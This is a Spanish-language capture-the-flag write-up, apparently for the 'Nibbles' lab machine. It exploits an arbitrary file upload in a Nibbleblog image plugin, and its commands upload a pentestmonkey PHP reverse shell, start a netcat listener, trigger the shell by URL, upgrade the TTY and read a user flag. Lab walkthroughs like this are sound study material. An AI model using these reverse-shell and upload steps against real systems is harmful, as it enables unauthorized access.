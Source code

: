 ```python
		print('[!] Exploit failed.')
```


En en este caso el plugin my_image ya existe, así que aprovechando que el módulo de carga de archivos es vulnerable a Arbitrary File Upload y no sanitiza ni valida el tipo de fichero que se carga, voy a subir una php reverse shell de pentestmonkey:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php nibbles.php
```

Después de cambiar la IP y el puerto por el de mi host local, subo la shell
![image](https://github.com/user-attachments/assets/ccbd9595-00c4-4c56-8cf7-75c3bef98779)



A continuación inicio un listener en el puerto 1234:

```
nc -nlvp 1234
```

Por último realizo la petición a la shell y obtengo la conexión reversa:

http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
![image](https://github.com/user-attachments/assets/b5529054-563e-4be0-b49b-8893c22b57ca)


### Mejora de la shell

```bash
script /dev/null -c bash
Crtl +z 
(suspended)
stty raw -echo;fg
reset xterm
export TERM=xterm
```

En nuestro host de ataque
```bash
stty size
```

En el host comprometido
```bash
stty rows X columns Y
```


### Foothold

Accedemos al directorio personal del usuario nibbler y capturamos la primera flag:

```
nibbler@Nibbles:/home/nibbler$ cat user.txt
56be62**************4c0b8bb
nibbler@Nibbles:/home/nibbler$ 
```
